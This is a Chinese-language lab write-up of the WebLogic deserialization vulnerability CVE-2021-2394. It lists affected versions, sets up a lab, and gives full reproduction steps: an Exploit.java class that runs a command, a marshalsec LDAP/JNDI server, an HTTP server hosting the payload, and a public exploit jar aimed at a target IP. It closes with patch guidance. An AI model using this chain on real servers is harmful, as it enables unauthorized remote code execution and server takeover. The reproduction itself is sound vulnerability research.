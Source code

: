 # 

# Weblogic 二次反序列化漏洞 CVE-2021-2394

## 漏洞描述

Oracle官方发布了2021年7月份安全更新通告，通告中披露了WebLogic组件存在高危漏洞，攻击者可以在未授权的情况下通过IIOP、T3协议对存在漏洞的WebLogic Server组件进行攻击。成功利用该漏洞的攻击者可以接管WebLogic Server。

这是一个二次反序列化漏洞，是CVE-2020-14756和CVE-2020-14825的调用链相结合组成一条新的调用链来绕过weblogic黑名单列表。

## 漏洞影响

```
Oracle WebLogic Server 10.3.6.0.0
Oracle WebLogic Server 12.1.3.0.0
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

系统环境：window10 系统

weblogic 版本：12.2.1.3，官网下载

![image-20230328155039160](images/image-20230328155039160.png)

在当前目录启动，启动后访问：

![image-20230328155131145](images/image-20230328155131145.png)

## 漏洞复现

下载 marshalsec 利用 marshalsec 开启 JNDI 服务：

```
https://github.com/mbechler/marshalsec # 需要自己编译
mvn clean package –DskipTests

https://github.com/RandomRobbieBF/marshalsec-jar # 可以直接使用
```

创建 Exploit.java，通过 javac 编译得到 Exploit.class：

```
public class Exploit {

    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

在同目录下使用 python 开启一个 http 服务，并使用 marshalsec 开启 JNDI 服务：

```
python -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

使用exp进行复现：

- https://github.com/lz2y/CVE-2021-2394/releases/tag/2.0

```
java -jar CVE_2021_2394.jar 192.168.31.3 7001 ldap://192.168.3.35:8087/Exploit
```

![image-20230328155325277](images/image-20230328155325277.png)

## 修复方式

当前官方已发布受影响版本的对应补丁，建议受影响的用户及时更新官方的安全补丁。链接如下：

- https://www.oracle.com/security-alerts/cpuapr2021.html
